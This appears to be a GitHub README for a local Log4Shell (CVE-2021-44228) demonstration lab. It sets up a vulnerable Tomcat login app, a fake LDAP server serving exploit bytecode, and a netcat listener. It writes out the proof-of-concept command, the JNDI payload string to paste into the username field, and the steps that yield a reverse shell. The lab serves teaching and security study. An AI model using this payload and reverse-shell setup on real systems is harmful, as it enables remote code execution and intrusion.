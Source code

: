 # log4shell-example

This pieces together a few things across github/internet and makes understanding why the log4shell is so dangerous.

Built/tested rootless containers with `podman and docker` using `x86_64` images.

1) An example tomcat java application that uses log4j and has a login screen to illustrate how easy it is to input exploitable ldap references
2) An LDAP server that will serve the exploit class byte code
   1) The LDAP server is redirected to a basic web server that serves the exploit byte code.  This is written in python that makes system calls out to java to build the exploit java class and produce the java class bytecode.  
   2) It also calls out to java sto start an [LDAP marshaler (serializer)](https://github.com/mbechler/marshalsec)
3) An example of how to create a reverse shell with [netcat (nc)](https://en.wikipedia.org/wiki/Netcat)
4) This uses an exploitable version of java openjdk, u172 `openjdk8:x86_64-ubuntu-jdk8u172` off of docker hub, that has the default of `com.sun.jndi.ldap.object.trustURLCodebase=true`, where java 8 u191 forward has `com.sun.jndi.ldap.object.trustURLCodebase=false`
5) Then we will illustrate how to use some forensics to scrape memory for sensitive information using `yara`

An important thing to note here is that while this demo is running locally, the LDAP server supplying the exploit can be hosted anywhere.



* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


There is a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: ./run-poc.sh <public ip>
```
Once it is running, you can access it on [localhost:8080]()


Now copy the `${jndi:ldap://localhost:1389/a}` and put it into the username field of the tomcat server at port `8080`

You will not be prompted in knowing that the tomcat application has in-fact connected to your netcat running at `9001`  Try typing simple commands like `ls` and see what you get.




